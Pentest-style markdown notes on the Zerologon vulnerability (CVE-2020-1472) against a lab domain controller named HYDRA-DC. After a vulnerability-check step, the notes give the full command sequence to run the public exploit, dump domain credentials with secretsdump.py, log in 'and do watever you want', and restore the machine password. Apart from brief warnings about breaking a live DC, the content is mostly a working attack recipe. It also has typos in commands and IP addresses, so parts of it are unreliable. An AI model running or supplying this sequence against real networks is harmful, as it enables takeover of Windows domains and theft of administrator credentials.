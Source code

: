 # DONT RUN THIS ON A PENTEST


## ZEROLOGON CHECK
```sh
> cd /opt
> git clone https://github.com/dirkjanm/CVE-2020-1472
> cd CVE-2020-1472
# copy zerologincheck.py script from https://github.com/SecuraBV/CVE-2020-1472 repository and save in this folder.
# use this script to run a test of domain controller to know if its actually vulnerable

> ./python3 zerologon-check.py <DC Server Name: HYDRA-DC> <DC-IP Address> 

"Its not recommended to run the actual exploit even if its vulnerable. Better to stop after the check. Its not workth destroying a DC of live environment"
```


# ZEROLOGON EXPLOIT
```sh
" It is very risky to exploit this vulnerability. Very high chance or DC to be destructed by this attack if the password is not reset properly after attack"

> ./python3 cve-2020-1472-exploit.py <DC Server Name: HYDRA-DC> <DC-IP Address>

> secretsdump.py -just-dc < <Domain/DC-Server\$@IPAddress>: MARVEL/HYDRA-DC\$@<192.168.138.132> >

# done with attack now. login and do watever you want

# now we are gonna restore this 

> secretsdump.py Administrator@92.168.138.132 -hashes <administrator hash wwe dumped before in last command>

# find a plain password hex string in the output corresponding to the user we attacked

> python3 restorepassword.py <MARVEL\HYDRA-DC@HYDRA-DC -target-ip <192.168.138.132> -hexpass <plain password hex>
```

### Reference: 
https://github.com/dirkjanm/CVE-2020-1472
https://www.trendmicro.com/en_us/what-is/zerologon.html
https://github.com/SecuraBV/CVE-2020-1472
